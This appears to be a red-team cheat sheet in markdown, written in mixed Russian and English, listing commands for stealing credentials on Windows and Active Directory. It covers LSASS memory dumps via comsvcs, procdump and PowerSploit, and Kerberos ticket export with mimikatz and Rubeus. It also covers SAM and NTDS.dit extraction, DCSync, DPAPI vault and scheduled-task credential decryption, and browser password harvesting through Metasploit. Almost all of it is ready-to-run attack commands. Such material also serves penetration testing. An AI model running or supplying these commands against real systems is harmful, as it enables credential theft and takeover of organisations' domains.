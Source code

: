 ## Извлечение Kerberos-tickest через дамп виртуальной памяти:
**Три способа дампа памяти:**  
1) taskmgr.exe → ПКМ по lsass.exe → дамп памяти;  
2) rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full  
3) procdump.exe -ma lsass.exe /accepteula.  
  
Если дамп удалось создать, то билеты можно безопасно извлечь уже на своей стороне:  
mimikatz.exe -> sekurlsa::Minidump lsass.dmp -> sekurlsa::tickets /export  
  
## Извлечение Kerberos-tickest (Rubeus):  
**Список доступных тикетов**: Rubeus.exe triage  
**Извлекаем TGT пользователя**: Rubeus.exe dump /luid:0xfffff /service:krbtgt /nowrap  
**Aditional information**: Tickets for the service name krbtgt are Ticket Granting Tickets (TGTs) and others are Ticket Granting Service Tickets (TGSs).  

## Извлечение хешей SAM (нужны учетные данные пользователя):  
secretsdump.py [domain]/[username]:[password]@[TARGET IP]  

## Извлечение хешей SAM (mimikatz):  
\mimikatz.exe token::elevate lsadump::sam exit  

## Извлечение NTLM/plaintext passwords (mimikatz):  
\mimikatz.exe token::elevate sekurlsa::logonpasswords exit  

## Извлечение Kerberos Encryption Keys (mimikatz): extract aes256_hmac value  
\mimikatz.exe token::elevate sekurlsa::ekeys exit  

## Domain cached credentials:  
Позволяет исользовать учетные данные домена, если нет связи с DC.   
\mimikatz.exe token::elevate lsadump::cache exit  

## DCSync (mimikatz):  
\mimikatz.exe token::elevate lsadump::dcsync exit  

## Powershell mimikatz:  
1) Invoke-Mimikatz -DumpCreds  
2) Invoke-Mimikatz -DumpCreds -ComputerName@("comp1","comp2")  

## DCSync with Kiwi:  
load kiwi  
dcsync_ntlm username  

## Manualy dump registry with Reg:
reg.exe save hklm\sam c:\temp\sam.save -> reg.exe save hklm\security c:\temp\security.save -> reg.exe save hklm\system c:\temp\system.save

**Crack dumped registry data**:  
1. creddump7\pwdump.py system sam  
2. secretsdump.py -system system -sam sam LOCAL  

## Retrieval of NTDS.DIT with ntdsutil:  
ntdsutil "activate instance ntds" ifm "create full C:\temp\ntdsutil" quit quit  

## Dump of LSASS with ProcDump:  
C:\Users\Administrator\Downloads\procdump.exe -accepteula -64 -ma lsass.exe c:\temp\lsass.dmp  

## Dump of LSASS with pd:  
C:\Users\Administrator\Downloads\pd.exe -p 552 > c:\temp\lsass.dump  

## Dump of LSASS with Minidump:  
Import-Module c:\users\administrator\downloads\PowerSploit-master\Exfiltration\Out-Minidump.ps1  
Get-Process lsass | Out-Minidump -DumpFilePath c:\temp  

## Retrieval of NTDS.DIT with NinjaCopy:  
**Local**:  
1) Import-Module C:\Users\Administrator\Downloads\PowerSploit-master\Exfiltration\Invoke-NinjaCopy.ps1  
2) Invoke-NinjaCopy -Path "c:\windows\ntds\ntds.dit" -LocalDestination "c:\temp\ntds.dit"  

**Remote**:  
1) Import-Module C:\Users\Administrator\Downloads\PowerSploit-master\Exfiltration\Invoke-NinjaCopy.ps1  
2) Invoke-NinjaCopy -Path "c:\windows\ntds\ntds.dit" -LocalDestination "c:\temp\ntds.dit" -ComputerName "WIN-25U0PFAB511"  

## Credentials manager (Seatbelt, Mimikatz):  
**List of credentials**:  
 - vaultcmd /list  
 - Seatbelt.exe WindowsVault //(The encrypted credentials stored in the users' "Credentials" directory)  
 - Seatbelt.exe WindowsCredentialFiles  
 - dir C:\Users\username\AppData\Local\Microsoft\Credentials  

**Obtain master key for decrypt stored credentials**:  
1) Mimikatz 1: sekurlsa::dpapi  
2) Mimikatz 2: dpapi::masterkey /in:C:\Users\username\AppData\Roaming\Microsoft\Protect\SID\GUID /rpc  

**Decrypt stored credentials**:  
mimikatz dpapi::cred /in:C:\Users\username\AppData\Local\Microsoft\Credentials\ID /masterkey:masterkeyValue  

## Scheduled Task Credentials (Mimikatz):  
**List of tasks**: dir C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials  

**Find GIUD amd master key**: 
  - dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\ID //GUID  
  - sekurlsa::dpapi //master key  

**Decrypt stored creds**:  
dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\ID /masterkey:masterkeyValue  

## Browser storage:  
**Metasploit**:  
1) run post/windows/gather/enum_chrome  
2) run post/multi/gather/firefox_creds  

Rename file.bin to cert9.db

**Tools for crack firefox passwords**: https://github.com/Unode/firefox_decrypt  
